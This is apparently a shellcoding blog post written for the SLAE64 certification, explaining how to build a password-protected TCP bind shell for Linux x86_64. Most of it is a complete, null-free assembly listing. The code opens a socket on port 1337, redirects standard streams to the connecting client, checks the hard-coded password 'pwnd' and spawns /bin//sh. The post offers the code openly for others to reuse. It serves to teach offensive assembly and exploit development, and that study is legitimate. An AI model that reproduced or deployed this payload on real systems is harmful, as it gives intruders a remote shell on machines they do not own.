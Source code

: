 Introduction
------------
In this post we will create a custom TCP bind shell for Linux x86_64 architecture that requires password to spawn a shell. Please note we wont be going into too much details on how each function work as this has already been discussed in my previous post [here](https://ihack4falafel.github.io/Creating-Custom-TCP-Bind-Shell-~-Linux-x86/).

Shellcode
---------
If you’re not familiar with x86_64 assembly its pretty much the same as x86 from shellcoding perspective. The following are the key add-ons (I should say) that you get when using x86_64 assembly as opposed to x86:

* The registers hold twice as much as x86 ones (8 bytes).
* You have 8 more registers (R8-R15).
* The ability to craft position independent shellcode using Instruction Pointer Relative Addressing.

I used `read()` function to check for input via `stdin` and then compare it to a predefined password (in this case I used `pwnd`), if the check fails the shellcode will jump to `_nop` section which will effectivly cause the bind shell to crash. Please refer to the link in the introduction section for more in-depth analysis of the functions used by the bind shell. The following is the final null-free shellcode.

```nasm
global _start

section .text

_start:

	; int socket(int domain, int type, int protocol)
	; rax=41, rdi=2, rsi=1, rdx=0
	xor esi,esi
	mul esi                
	inc esi
	push 2 
	pop rdi
	add al, 41
	syscall

	; save socket fd in rdi
	xchg   rdi,rax

	; setup sockaddr strcture (af_inet=2, port=1337, inaddr_any, 0)
     push 2
     mov word [rsp + 2], 0x3905
     push rsp      
     pop rsi

	; int bind(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
	; rax=49, rdi=fd, rsi=rsp, rdx=16
	push 0x31
	pop rax
	push rsp
	pop rsi
	push 0x10
	pop rdx
	syscall

	; int listen(int sockfd, int backlog)
	; rax=50, rdi=fd, rsi=who cares
	pop rsi
	push 0x32
	pop rax
	syscall

	; new = accept(sock, (struct sockaddr *)&client, &sockaddr_len)
	; rax=43, rdi=fd, rsi=rsp, rdx=16
	sub rsp, 0x10
	push rsp
	pop rsi
	push 0x2b
	pop rax
	push 0x10
	push rsp
	pop rdx
	syscall

	; store newly spawnd fd in r9
	xchg r9,rax

	; close parent socket
	xor rax, rax
	push 0x30
	pop rax
	syscall

	; dup2 (new, old)
	; rax=33, rdi=new fd, rsi=0,1,2 (stdin, stdout, stderr)
	xchg   rdi,r9
	push 0x3
	pop rsi
_loop:
	push 0x21
	pop rax
	dec esi
	syscall
	loopnz _loop

	; read (int fd, void *bf, size_t count)
	; rax=0, rdi=0 (stdin), rsi=rsp, rdx=4 (pwnd)
	xor rax, rax
	push rax
	pop rdi
	push rax
	push rsp
	pop rsi
	push 0x4
	pop rdx
	syscall

	; check passcode (pwnd)
	push 0x646e7770
	pop rbx
	cmp dword [rsi], ebx
	jne _nop

	; int execve(cont char *filename, char *const argv[], char *const envp[])
	; rax=59, rdi=*/bin//sh, rsi=0, rdx=0
	xor rax, rax
	push rax
	mov rbx, 0x68732f2f6e69622f
	push rbx
	push rsp
	pop rdi
	push rax
	push rsp
	pop rsi
	cdq
	push 0x3b
	pop rax
	syscall
	
_nop:
	nop
```

Now comes that fun part, let’s test out the shellcode.

![](/assets/images/Password_Protected_TCP_Bind_Shell_Linux_x86_64/BindShellDemo.gif)

Closing Thoughts
----------------
I feel like passwords are essential when it comes to bind shells and hope this post will benefit folks looking to create one. All of the above code are available on my [github](https://github.com/ihack4falafel/SLAE64/tree/master/Assignment%201). Feel free to contact me for questions via Twitter [@ihack4falafel](https://twitter.com/ihack4falafel). This post is one of many to come so stay tuned!

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certiﬁcation:

[http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html](http://www.securitytube-training.com/online-courses/x8664-assembly-and-shellcoding-on-linux/index.html)

Student ID: SLAE64–1579
